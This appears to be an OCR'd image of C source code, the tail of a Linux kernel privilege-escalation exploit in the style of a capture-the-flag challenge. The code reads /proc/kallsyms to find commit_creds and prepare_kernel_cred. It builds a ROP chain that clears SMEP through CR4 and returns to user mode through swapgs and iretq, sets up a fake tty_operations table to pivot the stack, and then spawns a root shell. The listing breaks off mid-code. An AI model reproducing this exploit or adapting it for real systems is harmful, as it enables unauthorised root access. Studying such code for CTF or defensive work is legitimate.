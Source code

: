 ````c
}


void get_shell(){
    if(!getuid()){
        printf("ROOT NOW!");
        system("/bin/sh");
    }else{
        printf("NO ROOT");
        exit(-1);
    }
}

void dev_alloc(int fd,size_t size){
    ioctl(fd,0x10001,size);
}

int main(){
    saveStatus();

    FILE * sys_table_fd = fopen("/proc/kallsyms","r");
    if(sys_table_fd < 0){
        printf("[*]cannot open '/proc/kallsyms' \n");
        exit(-1);
    }
    printf("[*]Open '/proc/kallsyms' ....\n");
    char buf[0x50]={0};
    while(fgets(buf,0x50,sys_table_fd)){
        if(commit_creds & prepare_kernel_cred)
            break;
        if(strstr(buf,"commit_creds") && !commit_creds){
            char hex[20]={0};
            strncpy(hex,buf,16);
            sscanf(hex,"%llx",&commit_creds);
            printf("[*]commit_creds addr: %p\n", commit_creds);
        }
        if(strstr(buf,"prepare_kernel_cred") && !prepare_kernel_cred){
            char hex[20]={0};
            strncpy(hex,buf,16);
            sscanf(hex,"%llx",&prepare_kernel_cred);
            printf("[*]prepare_kernel_cred addr: %p\n", prepare_kernel_cred);
        }
    }
    int i=0;
    size_t rop[0x30]={0};
    rop[i++] = POP_RDI;
    rop[i++] = 0x6F0;
    rop[i++] = MOV_CR4_RDI_POP_RBP;
    rop[i++] = 0; //rbp=0
    rop[i++] = (size_t)root;
    rop[i++] = SWAPGS_POP_RBP;
    rop[i++] = 0; //rbp=0 
    rop[i++] = IRETQ;
    rop[i++] = get_shell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    for(i=0;i<30;i++){
        fake_tty_operations[i] = MOV_RSP_RAX_DEC_EBX; // write -> rax = tty_operations_addr
    }
    fake_tty_operations[0] = POP_RAX;
````